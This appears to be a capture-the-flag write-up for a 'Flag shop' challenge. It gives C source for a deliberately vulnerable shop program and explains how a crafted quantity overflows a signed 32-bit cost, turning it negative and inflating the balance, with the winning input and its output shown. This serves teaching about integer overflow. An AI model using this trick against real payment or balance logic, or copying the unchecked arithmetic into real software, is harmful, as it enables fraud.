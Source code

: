 # Flag shop - the signed 32 bit integer

The trick and bug is about use of signed integer.

## Question

The C source code:

```c
#include <stdio.h>
#include <stdlib.h>
int main()
{
    setbuf(stdout, NULL);
    int con;
    con = 0;
    int account_balance = 1100;
    while(con == 0){

        printf("Welcome to the flag exchange\n");
        printf("We sell flags\n");

        printf("\n1. Check Account Balance\n");
        printf("\n2. Buy Flags\n");
        printf("\n3. Exit\n");
        int menu;
        printf("\n Enter a menu selection\n");
        fflush(stdin);
        scanf("%d", &menu);
        if(menu == 1){
            printf("\n\n\n Balance: %d \n\n\n", account_balance);
        }
        else if(menu == 2){
            printf("Currently for sale\n");
            printf("1. Defintely not the flag Flag\n");
            printf("2. 1337 Flag\n");
            int auction_choice;
            fflush(stdin);
            scanf("%d", &auction_choice);
            if(auction_choice == 1){
                printf("These knockoff Flags cost 900 each, enter desired quantity\n");

                int number_flags = 0;
                fflush(stdin);
                scanf("%d", &number_flags);
                if(number_flags > 0){
                    int total_cost = 0;
                    total_cost = 900*number_flags;
                    printf("\nThe final cost is: %d\n", total_cost);
                    if(total_cost <= account_balance){
                        account_balance = account_balance - total_cost;
                        printf("\nYour current balance after transaction: %d\n\n", account_balance);
                    }
                    else{
                        printf("Not enough funds to complete purchase\n");
                    }
                }
            }
            else if(auction_choice == 2){
                printf("1337 flags cost 100000 dollars, and we only have 1 in stock\n");
                printf("Enter 1 to buy one");
                int bid = 0;
                fflush(stdin);
                scanf("%d", &bid);

                if(bid == 1){

                    if(account_balance > 100000){
                        FILE *f = fopen("flag.txt", "r");
                        if(f == NULL){

                            printf("flag not found: please run this on the server\n");
                            exit(0);
                        }
                        char buf[64];
                        fgets(buf, 63, f);
                        printf("YOUR FLAG IS: %s\n", buf);
                        }

                    else{
                        printf("\nNot enough funds for transaction\n\n\n");
                    }}

            }
        }
        else{
            con = 1;
        }

    }
    return 0;
}
```

In short, we can get the flag if we can have balance greater than 100000 or use some ways else. (By the way 65535 uses 16 bit)

At first sight without reading the hint, I really tried to do something like buffer overflow ... Well, I failed. And generic problems are not the category for all those buffer overflow tricks.

After reading the hint - Two's complement. I remember the horrible bug I have written in C++:

```c
unsigned int i = length_of_something;

while i <= 0 {
    // do something
    int k = arr[i]; // One of those big problem is using i as index
    --i;
}

```

The program crashed after i becomes 0 and then --i runs -- i becomes `4294967295`, which is `-1` in two's complement.

And the bug we can exploit is in these lines:

```c
    total_cost = 900*number_flags;
    if(total_cost <= account_balance){
        account_balance = account_balance - total_cost;
```

`total_cost` is signed integer. As long as we made the first bit of it `1`, it becomes a negative number. Minus a negative number would be a plus to the `account_balance`!

So we can just craft the `number_flags` such that 900*`number_flags` would be 1000_0000_0001_0000_0000_0000_0000_0000 (Single 1, 10 0s, one 1, and 20 0s)

```python
>>> 0b1000_0000_0001_0000_0000_0000_0000_0000
2148532224
# Formating: 2,148,532,224
>>> 2148532224 // 900
2387258
>>> 0b1_0000_0000_0000_0000_0000  # 1 1, 20 0s
1048576
```

```text
These knockoff Flags cost 900 each, enter desired quantity
2387258 # (My input)

The final cost is: -2146435096
# Formatting: -2,146,435,096

Your current balance after transaction: 2146436196
# EZ Clap
```

## Reminder of Two's complement

For 4 bits of integer in Two's complement

0111  7
...
0000  0
1111 -1
1110 -2
1101 -3
1100 -4
1011 -5
1010 -6
1001 -7
1000 -8

One bit is used for sign bit so we can only use remaining 3 bits for the value. (between 7 and -8)

Quick calculation: 1000 is negative 2^3 -> negative 8 -> -8
Then we just add the other bits to -8 as usual. (Just like -8 + x. When x is 1, we have -8+1 =-7)
